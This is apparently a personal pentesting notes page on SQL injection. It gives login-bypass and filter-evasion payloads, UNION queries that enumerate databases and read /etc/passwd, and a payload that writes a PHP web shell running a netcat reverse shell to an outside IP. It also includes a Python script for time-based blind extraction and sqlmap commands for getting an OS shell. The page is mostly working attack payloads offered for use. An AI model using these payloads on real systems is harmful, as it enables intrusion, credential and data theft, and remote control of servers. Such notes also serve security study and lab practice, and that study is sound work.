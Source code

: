 ```yaml
---
title: Notes | SQLi
author: Zeropio
date: 2021-12-12
categories: [Notes, Databases]
tags: [sql, injection]
permalink: /notes/databases/sqli 
---
```



# Basic access
Maybe the database have the default login, we can try with:
```sql
> mysql -u root -h <ip>
```

---

# Basic Injection
If we can send a query to the database to log, we can do:
```sql
' or '1'='1' --
```

Probably we need to change the text to bypass filter:
```sql
aNd 1=1
aNd 21=21
orDeR bY 1
orDer+bY+1
orDer/\*\*/bY/\*\*/1
orDer%20bY%201
```
We can change the spaces by:
```sql
+, /**/, %20
```

Then we add a comment line, there are different comment for each program:
- Oracle: --
- MySQL: #
- MariaDB: /* */
Some others comment can be:
- /*
- //
- %23

> Probably, we need to add **;** at the end of the query (before the comment).
{: .prompt-tip }

Also, we can try to catch the login request with burp and send the SQLi with it.
  
---

# Error Based
When we see an SQL error in the page we can try to gather information of the web.
Adding and:
```sql
... ORDER BY 5; --
```
We can check how many rows are in the query.
> (We can change **--** to others SQL comments.)
{: .prompt-tip }

Then we can do an union with the columns:
```sql
... UNION SELECT 1,2,3,4,5;
... UNION SELECT NULL,NULL,NULL,NULL,NULL;
```

We can use to enumerate the following functions, replacing the numbers or NULL:
- database()
- user()
- load_file('/etc/password')

Now we can get the tables from the database:
```sql
... UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = "database-name";
```

Or the others databases:
```sql
... UNION SELECT schema_name,NULL FROM information_schema.schemata;
```
Some databases can limit the amount on databases show, we can try to change it with limit:
```sql
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 1,1; -- This will show the first one
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 2,1; -- This will show the second one
```

To get the columns of a table:
```sql
... UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = "database-name" AND table_name = "table-name";
```

We can use this syntax to read and write system files:
```sql
... UNION SELECT load_file('/etc/passwd'), NULL;
... UNION SELECT 'SUS', NULL into outfile '/tmp/attack.txt;
```
And then create a reverse shell:
```sql
' union select null,'<?passthru("nc -e /bin/sh 192.168.1.134 9000");?>' into outfile '/tmp/shell.php'#
```

If we can not pass a string like **"database-name"** we can encode it:
```console
$ echo "database-name" | xxd -ps
```
##### (We may remove the **0a**, and add a **0x** at the beggining.)

---

# Time Based (Blind)
We can make sleep the sql function in order to guess if the page is not displaying anything.

For example:
```sql
... 'admin' and sleep(5) --If the user is correct it will wait 5 sec 
... AND if(substr(database(),1,1)='c', sleep(5),1); --
```

We can make a Python Script:
```python
#!/usr/bin/python3

import requests, time, sys, signal
from pwn import *

url = '[your-url]'
s = '0123456789abcdefghijklmnopqrstuvwxyz'
result = ''

def def_handler(sig, frame):
	log.failure("Saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


def check(payload):
	data_post = {
		'username' : '%s' % payload,
		'password' : 'test'
	}

	time_start = time.time()
	content = requests.post(url, data=data_post)
	time_end = time.time()

	if (time_end - time_start > 5):
		return 1

p1 = log.progress('Database')
p2 = log.progress('Payload')

for i in range(0,10):
	for c in s:
		payload = "' OR if(substr(database(),%d,1)='%c', sleep(5),1); -- - % (i, c)"
		p2.status("%s" % payload)
		
		if check(payload):
			result += c
			p1.status("%s % result")
			break

log.info("Database: %s" % result)
```

We can change **database()** from the others functions in the **Error Based** to guess another values (tables, columns,...).

---

# SQLmap
We can try searching a URL with:
```console
> sqlmap -u "http://192.168.1.137/mutillidae/index.php?page=user-info.php&username=admin&password=aaaa&user-info-php-submit-button=View+Account+Details"
```

We can use the following options to get a reverse shell:
- **--os-shell**
- **--sql-shell**

With **Burp** we can capture the request and do the scan with a file with the header:
```console
> sqlmap -r req.txt
```
